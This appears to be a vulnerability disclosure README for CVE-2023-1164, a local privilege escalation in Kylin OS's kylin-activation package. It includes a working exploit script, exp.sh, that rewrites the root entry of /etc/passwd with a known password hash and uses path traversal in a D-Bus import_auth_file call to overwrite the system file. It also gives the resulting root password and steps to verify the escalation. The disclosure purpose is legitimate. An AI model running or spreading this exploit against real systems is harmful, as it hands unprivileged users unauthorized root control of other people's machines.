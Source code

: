 # Kylin OS privilege escalation vulnerability

Author: Set3r.Pan（8691003@qq.com）\
Unit: Kylin Software Co., Ltd.（https://www.kylinos.cn/）

### CVE ID
CVE-2023-1164
## Report
### Describe

The kylin-activation package is a component used by Kylin OS for authorization verification and activation. The software package does not strictly restrict the legality of the import file operation, so the directory where the system configuration file is located is imported into an illegal configuration file, resulting in the elevation of local privileges of ordinary users.


### Hazard level
High
### Affected version
- Desktop：kylin-activation < 1.3.11-23
- Server：kylin-activation < 1.30.10-5.p23
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exp.sh
```
echo "[*] Trying to overwrite passwd file ..."
cp /etc/passwd /tmp/passwd
sed -i 's/root:x:0:0:root/root:\$1\$nrDGqnHa\$EhGl0D2EBPmnQTC2hGvgl.:0:0:root/g' /tmp/passwd
dbus-send --system --dest=org.freedesktop.activation /org/freedesktop/activation org.freedesktop.activation.interface.import_auth_file string:../tmp/passwd
sleep 1
dbus-send --system --dest=org.freedesktop.activation /org/freedesktop/activation org.freedesktop.activation.interface.import_auth_file string:../tmp/passwd
sleep 1
echo '[*] Try login with root / 123qwe!@#QWE'
```
Run as a low-privileged user on the target OS:

<img width="515" alt="image" src="https://user-images.githubusercontent.com/35441986/223699923-d87d24fe-2cad-4999-983b-d3b76d70624e.png">

First, use the head -n 1 command to check the first line of /etc/passwd and find that it is normal：
```
root:x:0:0:root
```
Then, after running the exploit.sh script, recheck the content of the first line of /etc/passwd again, and found that it has been exploited successfully, and /etc/passwd has been replaced with the content controlled by the attacker. Then use the account password output by the script, use the su command, and find that the authority has been successfully raised to root authority.

### Vuln details
org.freedesktop.activation::import_auth_file receive files

![Image](./imgs/CVE-2023-1164_1.png)

If the file exists, the service copies the file to /etc, causing arbitrary files to be written in the /etc directory

![Image](./imgs/CVE-2023-1164_2.png)

